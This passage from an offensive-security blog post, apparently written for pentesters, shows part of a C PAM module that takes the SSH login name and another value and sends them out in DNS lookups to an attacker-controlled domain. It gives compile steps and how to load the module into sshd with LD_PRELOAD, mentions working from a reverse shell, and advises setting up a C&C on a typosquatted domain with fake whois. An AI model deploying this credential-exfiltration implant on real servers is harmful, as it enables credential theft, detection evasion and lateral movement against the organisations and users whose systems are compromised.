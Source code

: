 ```c
    	get_dns_servers();
    	pam_get_user((pam_handle_t *)pamh, &name, NULL);
    	snprintf(hostname, sizeof(hostname), "%s.%s.nowhere.local", name, *item); // Change it with your domain
    	if (fork() == 0) {
    		ngethostbyname(hostname, T_A);
    	}
    }   
 
    return retval; 
}

```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Compile (`gcc pam_fucked.c -shared -fPIC pam_fucked.so`), stop the SSH daemon and relaunch it with LD_PRELOAD=/../module/location.../.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The use of LD_PRELOAD has few negative side effects, like the needed of restart the daemon, so it can generate other kind of events that can alert the Blue Team. In the other hand, if you are going to restart a critical service as SSH you must operate from a point outside of SSH (maybe a reverse shell) and keep an eye to avoid terminating  the current sessions __:)__.


## 0x03 Communcation with C&C
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
As we stated before, we need to encode the data that will be exfiltrated (and in a real pentest encrypt this information). The best options are to encode it as hexadecimal (but the size is doubled so it is not the best idea) or as [base32](https://en.wikipedia.org/wiki/Base32) (care with the pad symbol). The C&C must be configured as an authoritative DNS and the best idea is to use a domain typosquatted with a faked whois that simulates real domain used by the company. 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
You can install a real DNS server, or just create the needed logic using python and __dnslib :)__.

## 0x04 Final words
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
I hope you find cool the idea of exfiltrate credentials via a classic covert channel like DNS. It is a really easy way to obtain new credentials in a recently compromised server and conquer other points of the net.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
As I always say, if you find a typo or want to comment something, feel free to ping me at twitter ([@TheXC3LL](https://twitter.com/thexc3ll)). 
